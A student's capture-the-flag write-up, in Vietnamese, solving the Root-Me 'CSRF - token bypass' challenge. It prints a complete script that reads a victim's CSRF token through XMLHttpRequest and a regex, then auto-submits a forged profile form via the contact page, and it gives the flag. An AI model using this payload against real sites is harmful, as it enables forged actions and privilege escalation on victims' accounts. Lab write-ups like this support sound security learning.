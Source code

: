 # Challenge: CSRF - token bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 60 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass

- Bắt đầu vào thử thách, ta tạo tài khoản và đăng nhập, khi truy cập trang profile. Khi cố gắng gởi thay đổi thông tin status(chỉnh sửa mã nguồn) và submit tuy nhiên ta sẽ nhận được thông báo. "You're not a admin!", 
<p align="center"><img src="./images/11.1.png"></p>

- Bài này cũng giống như bài trước flag có thể cũng lấy ở trang Private.
- Với trang contact thì ta có quyền submit. Với bài CSRF, ta sẽ tiến hành gởi form lên cho admin để admin thay ta gởi request tới server.
<p align="center"><img src="./images/11.2.png"></p>

- Tuy nhiên bài này khác với những bài trước ở chỗ là nó có thêm token, người khi gởi form thì cần gởi kèm theo cái token này
<p align="center"><img src="./images/11.3.png"></p>

- Do vậy mục tiêu của challenge này là cần phải bypass mã token này.
Như vậy ta cần phải lấy một token nào đó gắn vào form, để khi admin thực hiện request thì sẽ thành công. Nhưng mã token ở đâu ra?
- Giải pháp là ta sẽ dùng javascript để gởi request GET tới trang profile, và sau đó lấy mã token và đưa vào form 

```
var CSRF_token_Request = new XMLHttpRequest();
CSRF_token_Request.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
CSRF_token_Request.send();
```
<p align="center"><img src="./images/11.4.png"></p>

- Kết quả nhận được là từ response là mã html, ta cần lấy ra được mã token trong đoạn mã html này.
- Thực hiện request nhiều lần thì ta nhận ra rằng: `mã token là chữ chữ cái thường hoặc số, có số kí tự không đổ = 32` do vậy sẽ dùng match để lọc ra
<p align="center"><img src="./images/11.5.png"></p>

> Vậy ta dùng `CSRF_token_Request.response.match(/[abcdefghijklmnopqrstuvwxyz0123456789]{32}/)[0]` để lấy token ra



- Do đó ta sẽ có ý tưởng gởi form profile cho admin, với các giá trị được đặt sẵn, với trường username là abc, và status là checked
<p align="center"><img src="./images/11.6.png"></p>
<p align="center"><img src="./images/10.4.png"></p>
- Sửa đổi một chút, ta chỉ cần những thẻ cần thiết, và đặt id cho form để có thể lấy form và submit tự động. Trong thẻ script ta cần thực hiện đặt giá trị của token trước khi gởi form.

```
<form id="form" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="text" name="username" value="abc">
    <input type="checkbox" name="status" checked >
    <input id="token" type="hidden" name="token" value="" />
    <button type="submit">Submit</button>
</form>
<script>
    var CSRF_token_Request = new XMLHttpRequest();
    CSRF_token_Request.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
    CSRF_token_Request.send();

    document.getElementById("token").value = CSRF_token_Request.response.match(/[abcdefghijklmnopqrstuvwxyz0123456789]{32}/)[0]; 

    document.getElementById("form").submit();
</script>
```

- Nộp đoạn mã trên vào form contact.
<p align="center"><img src="./images/11.7.png"></p>
- Sau một lúc ta vào trang private thì lúc này ta đã được quyền truy cập, ta nhận được flag ở đây 
<p align="center"><img src="./images/11.8.png"></p>

## Kết quả flag là `Byp4ss_CSRF_T0k3n-w1th-XSS`